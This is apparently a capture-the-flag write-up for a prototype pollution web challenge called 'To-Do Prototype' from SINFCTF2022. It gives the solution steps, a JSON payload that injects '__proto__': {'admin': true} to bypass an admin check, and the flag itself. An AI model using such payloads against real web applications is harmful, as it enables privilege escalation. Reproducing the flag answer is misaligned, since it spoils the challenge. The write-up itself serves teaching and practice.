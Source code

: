 # To-Do Prototype

## Solution

This is a simple prototype pollution web challenge. 

If the player tries to read `/robots.txt` they can see that the `/json` route is disallowed.

If then they navigate to that page they can see a web JSON editor with the contents of the front page as JSON. They can see the various templates there and if they try using the `$FLAG` template, they will see a message warning that only admins can use the `$FLAG` template.

If they try to pass an `admin` property which evaluates to a truthy value, the JSON content is deemed "invalid" and cannot be submitted, at which time they will have to use the `"__proto__"` attribute to pollute the Object prototype. Using such a payload will result in a successful request.

Once that is done, if they go back to the front page they can, once again, use the `$FLAG` template, which will now display the flag.

PS: changing the admin property seems to change text containing the word "admin"

> Flag: `SINFCTF2022{1_h0P3_tH1s_pr0t0TYp3_d03sNT_G3t_P0lLuTED}`

---

Example payload:
```json
{
    "items": [
        {
            "text": "BOAS",
            "checked": false,
            "id": "9bfacfb5-9d7f-4967-baaa-80ce2e854219"
        },
        {
            "text": "Uh oh, you are trying to access the flag, but only *admins* can do it. Better ask for permission...",
            "checked": false,
            "id": "641a0d97-f57a-4e34-bb7c-7b16eecb1323"
        },
        {
            "text": "undefined",
            "checked": false,
            "id": "0ea14bf4-7d5b-46eb-b899-161b5c988fe6"
        }
    ], 
    "__proto__": { 
        "admin": true 
    }
}
```